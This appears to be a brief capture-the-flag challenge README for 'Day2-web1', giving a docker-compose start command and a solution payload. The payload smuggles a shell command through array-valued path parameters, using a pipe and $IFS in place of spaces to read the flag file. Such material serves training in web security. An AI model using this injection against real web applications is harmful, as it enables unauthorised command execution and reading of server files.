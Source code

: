 # Day2-web1

Use command to start:
```
docker-compose up -d
```

payload:
```
path[]=ios.rar&path[]=%7C&path[]=cat$IFS/flag$IFS%0a&path[]=ios.rar
```
